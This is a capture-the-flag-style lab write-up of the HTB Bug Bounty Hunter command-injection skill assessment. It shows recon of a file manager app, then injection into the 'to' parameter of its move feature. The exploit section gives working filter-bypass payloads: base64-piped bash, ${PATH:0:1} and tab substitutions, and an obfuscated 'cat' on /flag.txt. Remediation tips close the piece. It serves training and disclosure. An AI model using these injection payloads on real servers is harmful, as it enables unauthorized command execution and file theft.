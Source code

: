 This is a detailed write-up for the HTB Bug Bounty Hunter Certification’s skill assessments. This write-up series will treat each skill assessment as an individual penetration test, with a full explanation of a specific vulnerability, including remediation recommendations.
Command Injection Skill Assessment

Scenario:
You have been contracted to perform a penetration test for a company, and during your testing, you discover an interesting file manager web application. Since file managers often execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques discussed in this module to detect a command injection vulnerability and then exploit it, bypassing any filters that are in place.

Target in Scope:
94.237.xx.xxx
Recon and Analysis:

First, you want to interact with the application as a normal user to understand its functionality.

The file manager web application appears to be connected to the OS level, allowing us to view files hosted on the server.

![1_J-RQt28WxAwk5Wa5-wT5CQ](https://github.com/user-attachments/assets/4630e27c-bddb-4e8b-a93b-47fd5b1ac5a8)

When clicking the tmp folder, the parameter in the URL changes to to=tmp.

https://github.com/user-attachments/assets/59ef09be-f7b8-4d57-ae3a-62aecaf0b1a9

This also happens when visiting a .txt file, with the parameter appearing as to=&view=filename.txt.

https://github.com/user-attachments/assets/380f5e5b-af7d-4f72-b085-d875a704f593

Each file and folder has several functional action buttons, such as the "copy" button.

https://github.com/user-attachments/assets/7d2d989d-c1dc-40cd-80d5-59db260dfaf7

It seems this function allows users to copy files to other directories.

https://github.com/user-attachments/assets/daeecf1b-bf80-4078-a102-71ee641a2e89

The file can be moved using this URL:

http://94.237.49.166:46423/index.php?to=tmp&from=51459716.txt&finish=1&move=1

Once a file is moved, the action cannot be repeated on the same file.

https://github.com/user-attachments/assets/46c09bbc-c89c-4a1c-b950-2270bbf6c6a8

There is also an advanced search option available next to the regular search bar.

https://github.com/user-attachments/assets/80acbefa-01e8-416c-9453-33fc2085bfd4
https://github.com/user-attachments/assets/0983529a-c562-45ef-bbb9-6791d4f1230d
Attack Vector:

After testing the functional areas, we now want to target specific features and URL parameters to see if we can perform a command injection. One such area is the "move file" feature.

Below is the initial move of a file to a directory using the UI and HTTP request.

https://github.com/user-attachments/assets/94daae8f-ce9a-482b-9b92-6fbec09ea931
https://github.com/user-attachments/assets/2d8cddeb-4bb1-4720-a061-6bac9c63af17

Below is the repeated action for moving the same file.

https://github.com/user-attachments/assets/cb117f97-8f43-4e5c-9bf3-dc0b14d97c06
https://github.com/user-attachments/assets/3c20054b-0170-4ff5-a154-528f5eb36ddf

We want to check if the URL parameter is vulnerable to command injection.
Command Injection Techniques:

To inject additional commands into the existing one, we can use the following operators:

https://github.com/user-attachments/assets/8e5a7ced-3d20-453b-9c21-9175d2e7fe26

I tried injecting commands like whoami and ls into the "to" parameter. The error message displayed: "malicious request denied".

https://github.com/user-attachments/assets/1e147d29-cfdb-400e-9811-e61a98f5b7f0
https://github.com/user-attachments/assets/82451731-5b66-4185-b145-1d53d404ac7b

This indicates that basic commands are filtered. Therefore, we need to identify possible filters such as space, blacklisted characters, commands, or WAF filters.

To bypass this, I used command obfuscation with Base64 encoding.

bash<<<$(base64 -d<<<"base64 encoded OS payload")

https://github.com/user-attachments/assets/22448c0a-411a-44c7-8ff2-b9fac3dff2e9
https://github.com/user-attachments/assets/5b6d0267-d673-4229-b934-97ceb20e6007

We successfully executed whoami and obtained the result: www-data. Next, I tested ls -la to list the files.

https://github.com/user-attachments/assets/560881b1-453e-4746-b474-31e947411f67
https://github.com/user-attachments/assets/77d9db20-2325-4098-b28f-4ccd5ff13029
Exploit:

Now that we’ve identified the attack vector by bypassing the filter, we can perform an exploit.

I attempted to view the root directory.

https://github.com/user-attachments/assets/e4370eb5-7f18-490b-a649-145ab6d6e897
https://github.com/user-attachments/assets/cb53bf44-1a46-4127-b883-8a35560f28a5

There are several files, including config.php and index.php. Let’s explore further.

https://github.com/user-attachments/assets/5a87aea9-8c07-4c70-9c76-66608aca0ff1
https://github.com/user-attachments/assets/5bc27cde-d090-4c03-a593-a8dddc535e2d
https://github.com/user-attachments/assets/b144ef9c-9cfb-4b82-b26f-096e92090e35

I couldn’t find the target file, flag.txt, but I moved it to the tmp directory.

${PATH:0:1} = /

${IFS} = space

mv/flag.txt /var/www/html/files/tmp

mv ${PATH:0:1}flag.txt ${PATH:0:1}var${PATH:0:1}www${PATH:0:1}html${PATH:0:1}files${PATH:0:1}tmp

Base64 encoded:

bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRIOjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w

bash<<<$(base64%09-d<<<bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRIOjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w)

https://github.com/user-attachments/assets/ae2ed837-0694-4b6f-8d3e-c9d75efe5024

While the file was moved, I didn’t have permission to read it. However, I now know the location of the flag.txt file.

To bypass character filters, I used this payload:

%26c\a\t%09${PATH:0:1}flag.txt

&cat (horizontal tab) /flag.txt

https://github.com/user-attachments/assets/75d45b6a-43a2-4fba-b380-b1e4c7b0ae99
Consequences:

A command injection vulnerability is one of the most severe types. It allows an attacker to execute OS-level commands on the server, potentially compromising the entire network. When a web application uses user input to execute a system command, an attacker can inject malicious commands and take control of the system.
Remediation:

To prevent command injection vulnerabilities, consider the following measures:

    Avoid using system commands in web applications.
    Implement strict input validation and sanitization.
    Configure the web server properly to minimize the risk of such attacks.
